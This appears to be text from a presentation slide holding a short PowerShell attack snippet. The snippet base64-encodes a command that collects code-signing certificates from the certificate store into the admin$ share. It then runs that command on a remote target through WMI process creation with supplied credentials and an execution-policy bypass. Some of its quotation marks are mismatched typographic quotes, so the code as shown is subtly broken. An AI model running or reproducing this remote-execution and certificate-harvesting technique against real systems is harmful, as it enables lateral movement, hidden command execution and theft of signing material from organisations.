

# Retrieve certificate store
$command = (”
   try { mkdir '//localhost/admin$/Temp/certstorage’ } catch {}
   Get-ChildItem -Path cert: -Recurse -CodeSigningCert |
     Where-Object { `$_.GetType().Name -eq 'X509Certificate2' } | %{
          [System.IO.file]::WriteAllBytes(
          '//localhost/admin$/temp/certstorage/' + `$_.Thumbprint + '.cer',
          (`$_.Export('CERT', 'secret')))}
")
   $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
   $encoded = [Convert]::ToBase64String($bytes)

$wmic = Invoke-WmiMethod -Credential $cred `
      -ComputerName $Target `
      -Class Win32_Process `
      -Name Create `
      -ArgumentList "powershell -Exec bypass -EncodedCommand $encoded"